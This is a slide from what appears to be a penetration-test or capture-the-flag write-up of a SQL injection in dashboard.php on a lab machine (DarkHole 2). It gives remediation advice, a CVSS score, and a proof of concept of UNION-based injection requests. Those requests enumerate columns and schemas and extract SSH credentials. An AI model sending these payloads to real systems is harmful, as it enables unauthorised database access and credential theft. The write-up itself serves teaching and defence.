

# Cont..
Recommendation:
Prepared statements separate SQL logic from user input, preventing injection by automatically escaping malicious payloads (e.g., $stmt->execute([$_GET['id']]) instead of raw SQL concatenation).
Disable Error Messages: Configure PHP/MySQL to hide detailed errors (e.g., display_errors = Off).
WAF Rules: Block SQL keywords (e.g., UNION, SELECT) in input parameters.
CVSS Score: 8.8 (High)
CVSS String: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
References:
https://owasp.org/www-community/attacks/SQL_Injection
https://cwe.mitre.org/data/definitions/89.html
Proof of Concept (PoC)
Enumerate Columns: GET /dashboard.php?id=' ORDER BY 6-- -  (Determined 6 columns).
Extract Schema: GET /dashboard.php?id=' UNION SELECT 1,GROUP_CONCAT(schema_name),3,4,5,6 FROM information_schema.schemata-- - (Listed databases)
Dump Tables: GET /dashboard.php?id=' UNION SELECT 1,GROUP_CONCAT(table_name),3,4,5,6 FROM information_schema.tables WHERE table_schema='darkhole_2'-- - (Found ssh table)
Steal Credentials: GET /dashboard.php?id=' UNION SELECT 1,user,pass,4,5,6 FROM ssh-- - (Retrieved jehad:fool)